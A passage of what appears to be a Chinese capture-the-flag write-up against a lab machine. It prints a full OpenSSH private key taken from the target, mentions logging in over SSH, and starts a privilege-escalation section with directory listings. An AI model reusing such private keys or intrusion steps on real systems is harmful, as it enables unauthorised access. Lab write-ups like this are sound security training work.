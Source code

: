 ```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

尝试ssh连接一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404091729402.png" alt="image-20240409171133731" style="zoom:50%;" />

### 提权至root

#### 信息搜集

```python
╭─vic@tiny ~ 
╰─$ pwd     
/home/vic
╭─vic@tiny ~ 
╰─$ ls -la
total 220
drwx------  6 vic  vic    4096 Apr  9 11:12 .
drwxr-xr-x  3 root root   4096 Sep 25  2023 ..
-rw-r--r--  1 vic  vic     220 Sep 30  2023 .bash_logout
-rw-r--r--  1 vic  vic    3526 Sep 30  2023 .bashrc
drwx------  3 vic  vic    4096 Sep 30  2023 .gnupg
drwxr-xr-x  3 vic  vic    4096 Sep 30  2023 .local
drwxr-xr-x 12 vic  vic    4096 Sep 30  2023 .oh-my-zsh
-rw-r--r--  1 vic  vic     807 Sep 30  2023 .profile
drwx------  2 vic  vic    4096 Sep 30  2023 .ssh
```